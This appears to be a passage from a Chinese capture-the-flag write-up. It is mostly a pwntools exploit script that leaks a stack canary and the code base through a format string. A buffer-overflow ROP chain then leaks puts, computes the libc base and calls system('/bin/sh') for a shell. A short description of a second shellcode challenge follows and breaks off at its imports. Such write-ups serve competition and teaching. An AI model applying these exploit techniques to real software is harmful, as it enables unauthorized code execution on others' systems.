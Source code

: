 ```python
    p.recvuntil(b'choice? >> ')
    p.sendline(str(index).encode())

def submit(len, evidence, chicken):
    global canary, code_base, pop_rdi, ret, puts_addr
    choose(1)

    pop_rdi = 0x132f
    ret = 0x101a
    p.sendlineafter(b'limited! >> ', len)
    p.sendlineafter(b'>> ', evidence)
    recv = p.recvuntil(b'chicken!')
    recv = recv.split(b'-')
    canary = int(recv[1], 16)
    code_base = int(recv[2], 16) - 0x13d6
    pop_rdi += code_base
    ret += code_base
    log.info('canary: ' + hex(canary))
    log.info('code_base: ' + hex(code_base))
    elf = ELF(elf_path)
    puts_plt = elf.plt['puts'] + code_base
    puts_got = elf.got['puts'] + code_base

    payload = b'a' * 0x48 + p64(canary) + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(code_base + 0x1338)
    chicken = payload
    p.sendlineafter(b'>> ', chicken)

    puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

def trial(content):
    choose(2)
    p.sendlineafter(b'adjourned\n', content)

def exit():
    choose(3)



debug()
submit(b'2147483649', b'-%17$p-%19$p-', b'a' * 0x10)

choose(2)
log.info('puts_addr: ' + hex(puts_addr))
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') if local else None
libc_base = puts_addr - libc.symbols['puts'] if local else puts_addr - 0x80e50
system = libc_base + libc.symbols['system'] if local else libc_base + 0x50d70
bin_sh = libc_base + next(libc.search(b'/bin/sh')) if local else libc_base + 0x1d8678
payload = b'a' * 0x48 + p64(canary) + p64(0) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
p.recvuntil(b'adjourned\n')
p.sendline(payload)


p.interactive()


```
## mutsumi-区域
类似虚拟机的题目，可以写入四字节的立即数，也可以用题目给的jmp,构造shellcode来getshell,具体构造的看exp.
```python
from pwn import *
from wstube import websocket
```